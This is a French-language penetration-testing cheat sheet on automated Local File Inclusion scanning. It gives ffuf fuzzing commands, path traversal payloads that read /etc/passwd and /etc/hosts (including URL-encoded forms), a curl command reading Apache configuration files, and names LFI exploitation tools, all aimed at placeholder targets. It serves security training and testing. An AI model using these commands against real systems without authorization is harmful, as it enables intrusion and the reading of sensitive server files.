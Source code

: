 # Automated Scanning pour LFI

## <mark style="color:red;">**Commandes et Techniques**</mark>

<mark style="color:green;">**1. Fuzzing des Paramètres GET/POST**</mark>

Utilisation de `ffuf` pour identifier des paramètres cachés potentiellement vulnérables :

{% code overflow="wrap" fullWidth="true" %}
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
{% endcode %}

* **Wordlist utilisée** : `burp-parameter-names.txt`
* **Filtres** : Basés sur la taille des réponses ou les codes HTTP (200, 204, 301, 403, etc.).

***

<mark style="color:green;">**2. Tests LFI avec Wordlists**</mark>

Fuzzing avec des wordlists LFI pour détecter des payloads exploitables :

{% code overflow="wrap" fullWidth="true" %}
```bash
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```
{% endcode %}

* **Wordlist** : `LFI-Jhaddix.txt`
* **Payloads détectés** :
  * `../../../../etc/passwd`
  * `../../../../../etc/hosts`
  * Encodages alternatifs : `..%2F..%2F..%2Fetc%2Fpasswd`

***

<mark style="color:green;">**3. Fuzzing des Fichiers Serveur**</mark>

Recherche des fichiers critiques (webroot, logs, configurations) :

{% code overflow="wrap" fullWidth="true" %}
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```
{% endcode %}

* **Objectif** : Identifier le chemin webroot, ex. : `/var/www/html/`.

***

<mark style="color:green;">**4. Lecture des Fichiers Serveur**</mark>

Lecture de fichiers identifiés pour collecter des informations sensibles :

{% code overflow="wrap" fullWidth="true" %}
```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
```
{% endcode %}

* Exemples de fichiers utiles :
  * `/etc/apache2/apache2.conf` : Contient `DocumentRoot` (webroot) et `ErrorLog`.
  * `/etc/apache2/envvars` : Définit des variables serveur comme `APACHE_LOG_DIR`.

***

<mark style="color:green;">**5. Outils Automatisés pour LFI**</mark>

* **LFISuite** : Automatisation des tests LFI.
* **LFiFreak** : Tests rapides de paramètres vulnérables.
* **liffy** : Scripts de détection/exploitation.

_Remarque_ : Ces outils peuvent être obsolètes (dépendent souvent de Python 2).

***

